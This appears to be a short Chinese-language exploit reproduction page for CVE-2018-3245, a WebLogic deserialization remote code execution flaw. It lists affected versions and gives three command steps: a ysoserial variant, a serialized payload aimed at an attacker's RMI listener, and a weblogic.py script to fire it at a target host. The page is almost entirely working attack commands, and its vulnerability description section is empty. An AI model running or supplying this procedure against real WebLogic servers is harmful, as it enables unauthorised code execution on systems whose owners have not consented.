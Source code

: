 # CVE-2018-3245 WebLogic反序列化远程代码执行漏洞

### 一、漏洞简介

### 二、漏洞影响

WebLogic 10.3.6.0

WebLogic 12.1.3.0

WebLogic 12.2.1.3

### 三、复现过程

https://github.com/ianxtianxt/CVE-2018-3245

Step 1

`java -jar ysoserial-cve-2018-3245.jar`


```bash
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff
```

Step 2

`java -jar ysoserial-cve-2018-3245.jar CVE_2018_3245 "[RMI_SERVICE_IP]:[PORT]" > poc5.ser`

Step 3

`python weblogic.py [TARGET_HOST] [PORT] poc5.ser`
